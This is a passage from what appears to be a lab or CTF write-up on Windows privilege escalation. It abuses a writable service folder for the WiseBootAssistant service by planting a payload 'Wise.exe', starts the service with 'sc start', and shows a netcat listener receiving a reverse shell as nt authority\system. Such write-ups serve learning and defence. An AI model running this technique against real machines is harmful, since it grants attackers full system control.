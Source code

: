 ```
sc start WiseBootAssistant

sc start: Starts a service.

```

Before
------


Before the vulnerable service was running by default the system would check and run files in that service folder

After
-----

Now we have put the payload "Wise.exe" in the wise folder so what will happen is that the system will check for executables in the path of the Wise folder and run it.

Now go back to the listener to see if we got a shell !

`And yes yes we have !`


```
nc -nvlp 7777
listening on [any] 7777 ...
connect to [192.168.xx.xx] from (UNKOWN) [192.168.57.10] 
Microsoft windows [Version 10.0.19043.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system    

```

```
4 done 2 to go
```








